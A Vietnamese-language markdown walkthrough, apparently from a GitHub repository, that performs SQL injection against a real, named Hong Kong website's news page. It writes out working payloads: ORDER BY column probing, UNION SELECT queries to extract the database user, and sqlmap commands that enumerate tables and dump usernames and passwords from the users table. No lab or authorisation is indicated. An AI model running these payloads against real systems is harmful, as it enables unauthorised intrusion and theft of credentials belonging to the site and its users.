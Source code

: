 # TỔNG QUAN # 

Kiểm tra trên web "CMKOO" `http://www.cmkoo.com.hk/en/news/news.php?id=28`

![image](https://github.com/user-attachments/assets/202c0835-021d-41a0-8917-919b182cdbdb)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, user](#kiểm-tra-database-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+1`

![image](https://github.com/user-attachments/assets/a84108f8-bb63-4406-97da-9aacbbc9ec96)

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+20`

![image](https://github.com/user-attachments/assets/cdf0c4bd-a4b1-4b35-a12b-a3438af00070)

=> Số cột lớn hơn 1 và bé hơn 20 

`http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+16`

![image](https://github.com/user-attachments/assets/d238751e-d552-4ec0-a288-b0470fc9d980)

=> Số cột là 16

## Kiểm tra database, user 

**1. User**

`http://www.cmkoo.com.hk/en/news/news.php?id=28+UNION+ALL+SELECT+1,2,3,4,user,6,7,8,9,10,11,12,13,14,15,16+from+user.cmkoo_com_hk`

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

**2. Database**

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)

Trang sử dụng MySQL theo thông tin ở `error info`

## Sử dụng `sqlmap`

**1. Lấy thông tin database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 --dbs`

![image](https://github.com/user-attachments/assets/a8c0f32a-3c0d-4bfd-9aa0-15cd070e5962)

**2. Lấy các bảng trong database**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk --tables`

![image](https://github.com/user-attachments/assets/49aa44d3-efee-4abb-8872-04a7e1720bb4)

**3. Lấy các cột trong bảng**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users --columns`

![image](https://github.com/user-attachments/assets/c8328f5e-fbad-48d3-a7d8-39fef550ca8f)

**4. Lấy thông tin trong cột**

`sqlmap -u http://www.cmkoo.com.hk/en/news/news.php?id=28 -D cmkoo_com_hk -T users -C Username,Password --dump`

![image](https://github.com/user-attachments/assets/9e52defa-a995-4663-a216-a2744dca9ecb)
